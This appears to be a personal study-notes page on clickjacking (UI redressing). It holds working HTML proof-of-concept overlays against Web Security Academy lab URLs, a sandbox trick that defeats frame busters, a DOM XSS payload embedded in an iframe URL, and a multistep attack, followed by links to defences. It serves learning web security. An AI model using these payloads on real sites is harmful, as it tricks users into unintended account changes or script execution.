 >[!question] What it clickjacking?
>Clickjacking (also known as **UI redressing**) is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website.

# Basic clickjacking PoC

```html
<style>
    iframe {
        position:relative;
        width:1000;
        height: 1000;
        opacity: 0.2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:520;
        left:100;
        z-index: 1;
    }
</style>
<div>Click</div>
<iframe src="https://0a17008404af04c0c03c7c5c002800f0.web-security-academy.net/my-account"></iframe>
```

The target website iframe is positioned within the browser so that there is a precise overlap of the target action with the decoy website using appropriate width and height position values. Absolute and relative position values are used to ensure that the target website accurately overlaps the decoy regardless of screen size, browser type and platform.

![](../../zzz_res/attachments/clickjacking1.png)

## Frame busting scripts with prefilled form input

Some preventative techniques are based upon restricting the framing capability for websites. Common client-side protection enacted through the web browser are to use frame busting or frame breaking scripts. These can be implemented via proprietary browser JavaScript add-ons or extensions such as NoScript.

Some common behaviors are:
- check and enforce that the current application window is the main or top window,
- make all frames visible,
- prevent clicking on invisible frames,
- intercept and flag potential clickjacking attacks to the user.

Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers.
An effective attacker workaround against frame busters is to use the HTML5 iframe `sandbox` attribute. When this is set with the `allow-forms` or `allow-scripts` values and the `allow-top-navigation` value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window.

```html
<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```

PoC:
>[!note]
>to pre-fill data inside forms we can set them using query strings
```html
<style>
    iframe {
        position:relative;
        width:1000;
        height: 1000;
        opacity: 0.2;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470;
        left:100;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe name="victim_frame" sandbox="allow-forms" src="https://0a61008c0335a05dc0e5e05800b700c7.web-security-academy.net/my-account?email=test@test.com"></iframe>
```

## Combining clickjacking with a DOM XSS attack

Assuming that the attacker has first identified the [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) exploit. The XSS exploit is then combined with the iframe target URL so that the user clicks on the button or link and consequently executes the DOM XSS attack.

```html
<iframe name="victim_frame" src="https://0a96001203426ee2c0660906001e008e.web-security-academy.net/feedback?name=<img+src+onerror=print()>&email=a@b.com&subject=xss&message=this+form+is+vulnerable+to+xss"></iframe>
```

## UI redressing and XSS

[Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) and UI redressing can be combined in order to re-define any CSS style included in the original page in order to hijack the original behavior.

In Tutanota, for example, there was no isolation between the application itself and the email body, so any CSS styles included in the email may also apply to other elements of the UI. This can be abused by an attacker to make the _Save Attachment_ button transparent and also stretch it over the whole application's UI. This form of UI redressing leaves the victim no choice but to unknowingly click the invisible button. [^tutanota]

[^tutanota]: [Paul Gerste - Remote Code Execution in Tutanota Desktop Due to Code Flaw](../../Readwise/Articles/Paul%20Gerste%20-%20Remote%20Code%20Execution%20in%20Tutanota%20Desktop%20Due%20to%20Code%20Flaw.md#^024bf8)

## Multistep clickjacking

Attacker manipulation of inputs to a target website may necessitate multiple actions. For example, an attacker might want to trick a user into buying something from a retail website so items need to be added to a shopping basket before the order is placed. These actions can be implemented by the attacker using multiple divisions or iframes.

```html
<style>
	iframe {
		position:relative;
		width:1000;
		height: 1000;
		opacity: 0.2;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:520;
		left:80;
		z-index: 1;
	}
   .secondClick {
		top:300;
		left:200;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="https://0ad700100460cdbcc04ba431007400b0.web-security-academy.net/my-account"></iframe>
```

---

# Protections against clickjacking

- [X-Frame-Options](X-Frame-Options.md)
- [Content Security Policy (CSP)](Content%20Security%20Policy%20(CSP).md)
- [Frame busting](Clickjacking.md#Frame%20busting%20scripts%20with%20prefilled%20form%20input)

---

# Useful tools

- [Burp Clickbandit](https://portswigger.net/burp/documentation/desktop/tools/clickbandit)
